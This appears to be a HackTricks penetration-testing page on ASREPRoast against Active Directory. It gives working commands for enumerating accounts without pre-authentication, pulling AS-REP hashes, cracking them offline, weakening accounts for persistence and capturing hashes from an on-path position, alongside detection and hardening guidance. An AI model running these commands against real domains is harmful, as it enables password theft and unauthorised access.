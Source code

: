 # ASREPRoast

{{#include ../../banners/hacktricks-training.md}}

## ASREPRoast

ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

The main requirements for this attack are:

- **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
- **Connection to the Domain Controller (DC)**: Attackers need network access to at least one DC in order to send requests and receive encrypted messages.
- **(Optional) Domain account**: Having a domain account allows attackers to enumerate vulnerable users through LDAP queries. Without such an account attackers must blindly guess usernames.

---

### Enumerating vulnerable users

#### From a domain-joined context (LDAP)

```powershell
# PowerView (Windows)
Get-DomainUser -PreauthNotRequired -Verbose
```

```bash
# bloodyAD (Linux)
bloodyAD -u user -p 'Passw0rd!' -d crash.lab --host 10.100.10.5 get search \
        --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' \
        --attr sAMAccountName
```

#### Without credentials (Kerbrute)

`kerbrute` supports a **--no-preauth** switch that detects accounts vulnerable to AS-REP Roasting through response analysis:

```bash
kerbrute userenum --no-preauth -d jurassic.park usernames.txt -o found.txt
```

> Kerbrute observes whether the DC returns KRB5KDC_ERR_PREAUTH_REQUIRED (account **requires** pre-auth) or a full AS-REP (account **does not require** pre-auth).

---

### Requesting the AS-REP message

```bash
# Linux / Impacket
# 1. Against a word-list of potential users (no creds required)
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

# 2. Using domain credentials to pull only the vulnerable users
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

```powershell
# Windows / Rubeus 2024+
# The /nowrap switch avoids line wraps, /aes will request AES tickets if the account supports them
Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username] [/aes] [/nowrap]

# Legacy PowerShell implementation
Get-ASREPHash -Username VPN114user -Verbose   # (ASREPRoast.ps1)
```

> [!WARNING]
> AS-REP Roasting with Rubeus generates event **4768** (Ticket-Granting-Ticket requested) with **Pre-authentication Type = 0** and **Encryption Type 0x17 / 0x11 / 0x12** depending on the cipher negotiated.

---

### Cracking the hash

#### RC4-HMAC (etype 23 – most common)

```bash
hashcat -m 18200 hashes.asreproast wordlist.txt
john --wordlist=wordlist.txt hashes.asreproast
```

#### AES (etype 17 / 18 – Windows Server 2019 defaults)

Since 2023, Hashcat includes native modules for AES-encrypted AS-REPs (32100 & 32200):

```bash
# AES-128-CTS-HMAC-SHA1-96 (etype 17)
hashcat -m 32100 hashes.asreproast wordlist.txt

# AES-256-CTS-HMAC-SHA1-96 (etype 18)
hashcat -m 32200 hashes.asreproast wordlist.txt
```

John the Ripper already supports these formats:

```bash
john --format=krb5pa-sha1 hashes.asreproast --wordlist=wordlist.txt
```

> AES tickets are **significantly** harder to brute-force than RC4; cracking feasibility now almost entirely depends on password strength.

---

### Persistence / Weaponisation

If you control an account (e.g. via GenericAll) you can **remove** pre-authentication to expose it to future roasting attempts:

```powershell
# Windows (PowerView)
Set-DomainObject -Identity <username> -XOR @{userAccountControl = 4194304} -Verbose
```

```bash
# Linux (bloodyAD)
bloodyAD -u user -p 'Passw0rd!' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH target_user
```

---

## Detection & Mitigation

| What to look for | How |
|------------------|-----|
| Kerberos TGT requests **without** pre-authentication | Windows Security **Event ID 4768** where **Pre-Authentication Type = 0** |
| Unusual encryption downgrades to **RC4 (0x17)** | Correlate Event ID 4768/4769 where *Ticket Encryption Type = 0x17* |
| LDAP enumeration of `DONT_REQ_PREAUTH` accounts | Monitor directory-service logs for filters containing `4194304` |

Alerting rules such as the Sigma rule `windows_kerberos_asrep_roast` implement this logic and are natively supported by most SIEM/SOAR platforms .

Hardening recommendations:

1. **Enforce pre-authentication** for *all* accounts:  
   `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADUser -DoesNotRequirePreAuth $false`
2. **Disable RC4 encryption** and require AES-only Kerberos where legacy compatibility permits.
3. Apply **long, random service-account passwords** (ideally 25+ characters) or switch to **Group Managed Service Accounts (gMSA)**.
4. Monitor Event ID 4738/5136 for changes to the `userAccountControl` flag.

---

## AS-REP Roasting without credentials (on-path)

An attacker with a **man-in-the-middle** position can capture AS-REP packets for *any* user and optionally force weak ciphers.  [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) automates this:

```bash
# Actively proxy and RC4-downgrade Kerberos traffic
ASRepCatcher relay --dc $DC_IP

# Passive listening (no packet alteration)
ASRepCatcher listen
```

---

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [https://github.com/hashcat/hashcat/blob/master/src/modules/module_32200.c](https://github.com/hashcat/hashcat/blob/master/src/modules/module_32200.c) 
- [https://www.blumira.com/blog/how-to-detect-as-rep-roasting](https://www.blumira.com/blog/how-to-detect-as-rep-roasting) 

---

{{#include ../../banners/hacktricks-training.md}}
